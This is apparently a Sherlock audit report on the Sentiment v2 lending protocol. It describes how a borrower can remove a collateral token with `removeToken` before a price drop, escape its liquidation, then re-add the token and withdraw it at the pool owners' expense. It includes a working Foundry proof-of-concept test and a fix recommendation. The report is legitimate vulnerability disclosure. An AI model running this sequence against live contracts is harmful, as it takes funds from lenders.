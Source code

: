 Rough Malachite Mockingbird

High

# A user can save himself from complete loss from liquidation without repaying, and can cause griefing/loss for the POOL owners.

## Summary
A user can save himself from complete loss from liquidation without repaying and cause grief for the POOL owners, by removing an asset using `removeToken` function, used as collateral in position, just before the event leading to a bad position.
And then once remaining assets are liquidated ,he can add that same asset again, and transfer it back again to himself.

For better explanation lets get into a scenario and a POC for it below.

## Vulnerability Detail
Before getting into the scenario, lets first understand what could cause this issue.

Users can add & remove tokens in their position, which are used as collateral.
This can be done using the `addToken` & `removeToken` functions.

https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/PositionManager.sol#L404C5-L424C6

But there's no restriction on doing this , and the tokens are directly being added/removed from the  `positionAsset` sets.

A user can misuse this lack of restriction . How ? lets see a scenario. 

(I'M DESCRIBING A BASIC SCENRIO WHICH CAN BE ALSO EASILY RECIPROCATED IN POC, HENCE BETTER FOR UNDERSTANDING THE CORE ISSUE).

Lets say a user deposits 2 units of `asset2` in the position. And then adds it using `addToken(asset2)`.
Then borrows from a Pool which contains `asset1` . Hence borrows 1 unit of `asset1`.
Now using exec function he swaps it with `asset3`.
And then adds `asset3` into the Position.
Lets say the value of `asset1` `asset2` & `asset3` is equal to `1e18`.

So now `totalAssetsValue = 3e18`
`debt = 1e18`.

Here the position is safe.

Now what the user does is remove the `asset3` from `positionAssets` set. 
The `Position` contract does holds the `asset3` tokens, but the user just removes it form the set.

Hence now `totalAssetValue = 2e18`, since `totalAssetValue is being calculated using the assets present in positionAssets SET`

Now suppose an event occurs where the price/value of `asset2` drops from `1e18` to `0.1e18`.

Now the totalAssetValue = 0.2e18.

His position is in a bad position, and will be liquidated by a liquidators, and his `asset2` values will be liquidated.

But here if he wouldn't had removed the `asset3`, his `asset3` values would also have been liquidated.

The liquidation happens and the remaining debt is being repayed, ** BUT from asset2 only **.

Now the `debt  = 0`.
And he again adds `asset3` token in the `positionAssets` SET.

And now the `totalAssetValue = 1e18`, because of the asset3.

Then he uses the `transfer` function, and transfers the `asset3` token value to another address of himself.

Hence where if he hadn't removed `asset3` , he would have lost them also.

But he saved himself because of lack of restriction on the `removePool`.
And also caused griefing for the POOL owner of a value of `1e18 ` in this scenario.

The loss for POOL owners can also go high depending on scenarios and how users MISUSE this advantage.

## POC

Below is the Proof of code for the above given scenario. Add this test function in the test/integration/Liquidate.t.sol.

Run this test using command `forge test --mt testPOC`.

```javascript
function testPOC() public {
        vm.startPrank(user);
        asset2.approve(address(positionManager), 3e18);

        // deposit 1e18 asset2, borrow 1e18 asset1, swap asset3 with asset1 
        Action[] memory actions = new Action[](7);
        (position, actions[0]) = newPosition(user, bytes32(uint256(0x123456789)));
        actions[1] = deposit(address(asset2), 2e18);
        actions[2] = addToken(address(asset2));
        actions[3] = borrow(fixedRatePool, 1e18);
        actions[4] = approve(address(mockswap), address(asset1), 1e18);
        bytes memory data = abi.encodeWithSelector(SWAP_FUNC_SELECTOR, address(asset1), address(asset3), 1e18);
        actions[5] = exec(address(mockswap), 0, data);
        actions[6] = addToken(address(asset3));
        positionManager.processBatch(position, actions);
        vm.stopPrank();
        assertTrue(riskEngine.isPositionHealthy(position));

        // construct liquidator data
        DebtData memory debtData = DebtData({ poolId: fixedRatePool, amt: type(uint256).max });
        DebtData[] memory debts = new DebtData[](1);
        debts[0] = debtData;
        // AssetData memory asset1Data = AssetData({ asset: address(asset3), amt: 1e18 });
        AssetData memory asset2Data = AssetData({ asset: address(asset2), amt: 2e18 });
        AssetData[] memory assets = new AssetData[](1);
        assets[0] = asset2Data ; 

        // attempt to liquidate before price moves
        asset1.mint(liquidator, 10e18);
        vm.startPrank(liquidator);
        asset1.approve(address(positionManager), 1e18);
        vm.expectRevert(abi.encodeWithSelector(RiskModule.RiskModule_LiquidateHealthyPosition.selector, position));
        positionManager.liquidate(position, debts, assets);
        vm.stopPrank();

        // totalAssetValue & totalDebtValue before price declining and removing asset3
        (uint256 totalAssetValueB, uint256 totalDebtValueB,) = riskEngine.getRiskData(position);
        assertEq(totalAssetValueB, 3e18);
        assertEq(totalDebtValueB, 1e18);

        // user removes the asset3
        Action[] memory action = new Action[](1);
        action[0] = removeToken(address(asset3));
        vm.prank(user);
        positionManager.processBatch(position, action);

        // asset2 price moves from 1eth to 0.1eth and position becomes unhealthy
        FixedPriceOracle pointOneEthOracle = new FixedPriceOracle(0.1e18);
        vm.prank(protocolOwner);
        riskEngine.setOracle(address(asset2), address(pointOneEthOracle));
        assertFalse(riskEngine.isPositionHealthy(position));

        // totalAssetValue after price declining and removing asset3
        (uint256 tAV,,) = riskEngine.getRiskData(position);
        assertEq(tAV,2e17);

        // liquidate
        vm.startPrank(liquidator);
        asset1.approve(address(positionManager), 1e18);
        positionManager.liquidate(position, debts, assets);
        vm.stopPrank();

        // USER'S POSITION GET LIQUIDATED AND NOW EVERY VALUE = 0 
        (uint256 totalAssetValue, uint256 totalDebtValue, uint256 minReqAssetValue) = riskEngine.getRiskData(position);
        assertEq(totalAssetValue,0);
        assertEq(totalDebtValue,0);
        assertEq(minReqAssetValue, 0);

        // User again adds `asset3`.
        Action[] memory action2 = new Action[](1);
        action2[0] = addToken(address(asset3));
        vm.prank(user);
        positionManager.processBatch(position, action2);

        // totalAssetValue after adding asset3 becomes 1e18.
        (uint256 totalAssetValueAfter,,) = riskEngine.getRiskData(position);
        assertEq(totalAssetValueAfter, 1e18);

        // User transfers the asset3 to himself
        Action[] memory action3 = new Action[](1);
        action3[0] = transfer(user, address(asset3), 1 ether);
        vm.prank(user);
        positionManager.processBatch(position, action3);

        assertEq(asset3.balanceOf(user),1e18);

        // HENCE USER WAS ABLE TO SAVE HIS 1e18  value `ASSET3` & CAUSE SAME AMOUNT OF LOSS TO THE POOL OWNER.

    }
```
And the test will pass.

## Impact

As seen above, user was able to save himself from complete liquidation of his assets, by saving an `x` amount of assets, and griefing the POOL owner with that same `x` amount of asset, causing clear LOSS OF FUNDS.

## Code Snippet
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/0b472f4bffdb2c7432a5d21f1636139cc01561a5/protocol-v2/src/PositionManager.sol#L404C5-L424C6

## Tool used

Manual Review, Foundry

## Recommendation
There should be RESTRICTION added, while removing a token, it should be check whether the position has any DEBT or NOT.
If yes, then the user should not be allowed to remove the token from the `positionAssets`.